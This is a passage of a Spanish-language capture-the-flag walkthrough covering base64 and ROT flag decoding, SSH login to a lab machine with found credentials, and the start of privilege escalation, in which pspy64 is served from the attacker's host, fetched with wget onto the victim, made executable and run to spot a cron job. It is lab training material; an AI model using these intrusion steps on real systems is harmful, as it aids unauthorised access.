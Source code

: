 `echo "ZmxhZ3tmMXJzN19mbDRnfQ==" | base64 -d`

![[Pasted image 20250725094110.png]]

---
## Explotación
### SSH

Se accede al servicio **SSH** con las credenciales obtenidas previamente.

`ssh boring@10.10.227.13 -p 6498`

![[Pasted image 20250725103539.png]]

`cat user.txt`

![[Pasted image 20250725103616.png]]

La flag también esta cifrada, se accede a [Dcode](https://www.dcode.fr/cipher-identifier) para saber el *hash* y desencriptarlo.

![[Pasted image 20250725103812.png]]

![[Pasted image 20250725103856.png]]

Se trata de un cifrado llamado *ROT*.
### Escalada de Privilegios
#### Tarea CRON

Se procede a visualizar si existen tareas **CRON** que ejecuten algunos de estos archivos.

Se descarga la herramienta [pspy64](https://github.com/DominicBreuker/pspy), que permite visualizar las tareas **CRON** ejecutadas en segundo plano.

Se descarga en nuestra máquina.

`mv /home/manumore/Descargas/pspy64 .`

`python3 -m http.server 80`

Se descarga en la máquina victima en el directorio `tmp` y se dan permisos.

`wget 192.168.1.127/pspy64`

`chmod 777 pspy64`

Se ejecuta el archivo descargado.

`./pspy64`

Se observa una tarea **CRON**.

![[Pasted image 20250725104635.png]]

Se busca el archivo `.mysecretcronjob.sh`.
